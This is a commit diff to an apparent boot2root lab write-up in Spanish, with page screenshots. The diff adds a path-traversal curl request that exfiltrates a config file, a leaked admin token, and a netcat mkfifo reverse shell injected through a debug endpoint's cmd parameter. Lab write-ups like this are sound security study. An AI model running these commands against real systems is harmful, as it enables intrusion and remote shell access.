

Before and after one commit to juzzrespecter/boot2root, an MkDocs documentation site: the page built from docs/rce.md, in a window 1280 px wide and 1400 px high, scrolled down 442 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Actualizacion notas rce

````diff
--- a/docs/rce.md
+++ b/docs/rce.md
@@ -40,18 +40,30 @@ python3 scripts/encrypt.py
 clear
 ```
 
-Exfultramos el archivo **.env.old** y obtenemos las credenciales de ssh de paco junto con el admin token que nos permitirá pasar al siguiente stage de **ejecución remota de comandos**.
+Exfiltramos el archivo **.env.old** y obtenemos las credenciales de ssh de paco.
+
+Exfiltramos también el archivo `config.py` del repositorio de la aplicación con `curl 'http://10.1.0.8:5042/api/debug?file=../../../../var/www/hal9042/config.py'` y obtenemos el token de administración.
+
+```python
+# Internal maintenance token. The /api/debug console accepts this token to run
+# diagnostic commands. Was supposed to be rotated before launch.
+ADMIN_TOKEN = "h4l_d3bug_t0k3n_2024"
+```
+
+El token nos permitirá pasar al siguiente stage de **ejecución remota de comandos**.
 
 ## RCE
 
 El comando que nos va a permitir obtener una reverse shell es el siguiente:
 ```bash
-rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 |nc 10.1.0.1 6767 >/tmp/f...
+rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 |nc 10.1.0.1 6767 >/tmp/f
 ```
 El comando crea una **named pipe** que redirige su output a una shell interactiva, que a su vez comunica con un **socket** abierto por netcat que se conectará a nuestro servico local con `nc -lk 6767` y redirigirá nuestros comandos de nuevo a la pipe.
 
 Codificado para pasarlo como parámetro:
 ```bash
+export ADMIN_TOKEN="h4l_d3bug_t0k3n_2024"
+
 curl "10.1.0.8:5042/api/debug?cmd=rm%20-f%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%20%7Cnc%2010.1.0.1%206767%20%3E%2Ftmp%2Ff&token=$ADMIN_TOKEN"
 ```
 
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -2,6 +2,8 @@ site_name: boot2root memoria
 nav:
   - Inicio: index.md
   - Reconnaisance: reconnaisance.md
+  - 'Exploit: LFI - RCE': rce.md
+  - 'Exploit: SSTI': ssti.md
   - Servidor: server-reconnaisance.md
   - Bonus: bonus.md
 
````
Also changed, not shown: 1 other file.
